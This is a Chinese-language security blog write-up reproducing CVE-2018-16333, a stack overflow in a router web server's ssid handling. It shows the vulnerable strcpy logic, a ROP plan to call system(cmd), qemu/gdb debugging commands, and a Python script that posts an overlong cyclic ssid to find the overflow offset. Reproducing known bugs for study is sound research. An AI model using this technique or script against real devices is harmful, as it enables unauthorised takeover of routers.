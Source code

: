 #  栈溢出从复现到挖掘-CVE-2018-16333漏洞复现详解   
原创 Vlan911  我不懂安全   2025-05-11 14:38  
  
### 此文章首发至先知社区  
### https://xz.aliyun.com/news/17940  
###   
### 启动程序的方式与上一篇文章相同，此处不进行赘述  
### 漏洞点位分析  
  
漏洞成因是web服务在处理post请求时，对ssid参数直接复制到栈上的一个局部变量中，参数没有进行长度限制，导致栈溢出。根据ssid字符串定位到form_fast_setting_wifi_set函数。   
  
![](https://mmbiz.qpic.cn/mmbiz_png/qXbmFE2wB53zJOPb8XmrzicaHC97PVLKgB1SZkYC0AyHOhM24TDfrqP8cs3lB5ZbgfT87IpVlahiarzlpL3Mia2nA/640?wx_fmt=png&from=appmsg "")  
  
程序获取ssid参数后，没有经过检查就直接使用strcpy函数复制到栈变量中。其中有个细节：第一次的strcpy如果要溢出到返回地址，会覆盖第二次的strcpy的参数dest。因此，为了将src指针覆盖为有效地址，并且不影响第一次的strcpy， 需要绕过两次  
strcpy  
的安全隐患，确保第二次  
strcpy  
不崩溃，因此Payload中需包含可读地址   
  
  
- 1、溢出后跳到第一个gadget1，控制r3寄存器为system函数地址，第一个pc控制为gadget2  
  
- 2、跳转到gadget2后，控制r0为要执行的命令即可  
  
- 3、执行system(cmd)  
  
### 偏移量分析  
  
启动调试，这里需要换成pwndgb，因为pwndgb可以支持更多的指令，特别是计算偏移量  
```
# 第一个终端，使用用户模式启动程序
sudo chroot ./ ./qemu -g 1234 
./bin/httpd
# 第二个终端
gdb-multiarch
target remote :1234
b *0x67028    #第一个strcpy之前的位置
b *0x6707C    #第一个strcpy的位置
#b *0x67080    #第二个strcpy函数的第一个参数位置
#b *0x67090    #第二个strcpy的位置
info breakpoints   # 或简写为 `i b`   查看断点c
#第三个终端
python3 4.py #漏洞溢出测试脚本
```  
```
# 4.py测试脚本如下所示
import requests
from pwn import * 
url = "http://192.168.50.18/goform/fast_setting_wifi_set"
cookie = {"Cookie":"password=1234111115"}
data = {"ssid": cyclic(500)}
response = requests.post(url, cookies=cookie, data=data)
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
```  
  